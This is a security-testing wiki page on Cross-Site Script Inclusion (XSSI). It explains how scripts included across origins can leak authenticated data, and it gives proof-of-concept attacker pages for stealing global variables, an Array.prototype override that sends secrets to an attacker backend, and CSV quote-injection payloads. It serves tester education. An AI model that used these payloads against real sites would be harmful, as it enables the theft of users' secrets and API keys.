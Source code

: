 Cross Site Script Inclusion (CSSI or XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries.
XSSI is a client-side attack similar to [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF)) but has a different purpose: is uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default, websites are only allowed to access data if they are from the same origin because of the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md). However, this policy is not applicable for HTML `<script>` tag inclusions. When the browser opens a website with `<script>` tags, the resources are fetched from the cross-origin domain. The resources then run in the same context as the including site or browser, which presents the opportunity to leak sensitive data.

# XSSI vulnerabilities

Testers should analyze code for the following vehicles for data leakage via XSSI vulnerabilities: [^owasp][^hacktricks-xssi]
1. Global variables
2. Global function parameters + Prototype chaining using `this`
3. CSV (Comma Separated Values) with quotations theft
4. JavaScript runtime errors
6. [JSON with Padding (JSONP)](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP))

Use the [Burpsuite](../Tools/Burpsuite.md) extension [*Detect Dynamic JS](../Tools/Burpsuite.md#*Detect%20Dynamic%20JS) to identify dynamic javascript files containing possible user-related data


[^owasp]: [Testing for Cross Site Script Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/13-Testing_for_Cross_Site_Script_Inclusion), owasp.org
[^hacktricks-xssi]: [XSSI (Cross-Site Script Inclusion)](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion), book.hacktricks.xyz
## Global Variables

An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim’s website, `victim.com`, which is only accessible to authenticated users:

```js
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```

An attacker lures the victim to `attackingwebsite.com` via social engineering, phishing emails, etc. The victim’s browser then fetches `api.js`, resulting in the sensitive data being leaked via the global JavaScript variable and displayed using `innerHTML`.

## Global Function Parameters + Prototype chaining using `this`

Like the case before, but the secret is read using a global function:


```js
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

Attacker can exfiltrate the data by defining a custom function with the same name:
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

If a variable does not reside inside the global namespace, sometimes this can be exploited anyway using _prototype tampering_. Prototype tampering abuses the design of JavaScript, namely that when interpreting code, JavaScript traverses the prototype chain to find the called property.  [^research]

[^research]: [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf), 

```js
(function(){
  var arr = ["secret1", "secret2", "secret3"];
  // intents to slice out first entry
  var x = arr.slice(1);
  ...
})();
```

In the original code `slice` from type `Array` accesses the data we’re interested in. An attacker can, as described in the preceding clause, override `slice` and steal the secrets.
```js
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

## CSV with Quotations Theft 

To leak data the attacker/tester has to be able to inject JavaScript code into the CSV data. [^xssi-csv]

[^xssi-csv]: [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf), Takeshi Terada

```http
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this example, using the `___` columns as injection points and inserting JavaScript strings in their place has the following result.

```csv
1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

The first publicly documented XSSI attack was in 2006. Jeremiah Grossman’s blog entry Advanced Web Attack Techniques using GMail [^xssi-gmail] depicts a XSSI, which by overriding the Array constructor was able to read the complete address book of a google account.

[^xssi-gmail]: [Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html), Jeremiah Grossman